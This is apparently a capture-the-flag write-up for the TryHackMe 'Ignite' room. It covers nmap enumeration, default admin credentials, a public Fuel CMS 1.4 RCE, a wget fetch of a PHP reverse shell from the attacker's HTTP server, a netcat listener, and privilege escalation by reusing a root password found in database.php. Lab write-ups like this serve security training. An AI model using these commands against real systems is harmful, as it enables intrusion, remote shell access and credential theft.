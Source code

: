 # Ignite
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuel CMS
* Reverse Shell
* Fuel CMS CVE-2018-16763
* database config file

Tools used
--
* nmap
* wget
* nc

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.40.228
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.40.228 -p- -T5 -vvv

<SNIP>
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
<SNIP>
```
Phase 2: Foothold
--
File `robots.txt` contains `fuel` path. If we visit it, we go through a login page. Furthermore, in the home page of this web application, there is a direct link to this login page and the admin credentials. Let's access by `admin:admin`.

We land inside an admin dashboard. There are several sections with "Upload" function: Pages, Blocks, Navigation, Assets.

On all these sections, by giving a look to the page source code, we notice the only allowed extensions are:
```html
<input type="file" name="userfile" value="" id="userfile_upload" class="field_type_file multifile" accept="jpg,jpeg,jpe,png,gif,mov,mpeg,mp3,wav,aiff,pdf,css,zip,svg"  />
```
One step behind: we noticed the FUEL CMS version is 1.4. By searching on Internet, we can get the following exploit: https://github.com/noraj/fuelcms-rce

Run it, and we can get a Remote Command Execution. From here, let's try to get a reverse shell by running netcat on our attacker machine. By running several reverse shell commands (bash, python, nc, PHP), we don't get any luck. So, the only way in mind should be found a way to upload a reverse shell file directly on the web server. For doing this, we should find a way to transfer files among machines. `curl` and `python` commands don't exist because by running `--version` argument, our exploit script does return nothing. But we noted `wget` exists.

So, let's create an HTTP server on the attacker machine side and use `wget` for uploading the file. For first, on the attacker machine create a reverse shell file `rev.php` and paste your PHP code. Then, in the same folder, run:
```
python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
By our exploit script, run:
```
ruby exploit.rb http://10.10.40.228 'wget http://10.18.98.39:8000/rev.php'
```
After that, on the attacker machine run `nc -lvnp <PORT>` and by the browser visit `10.10.40.228/rev.php`. At this point we get the reverse shell on netcat. Let's give the following commands:
```
script /dev/null -c bash

cat home/www-data/flag.txt

6470e394cbf6dab6a91682cc8585059b
```
Phase 3: Privilege Escalation
--
Trying to search for some interesting data inside the web server, we can find an interesting file `/var/www/html/fuel/application/config/database.php`:
```php
<SNIP>
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
<SNIP>
```
We can note root credentials. If we run `su root` and type `mememe` as password, we get root access and we can retrieve the root flag in `/root/root.txt` file.

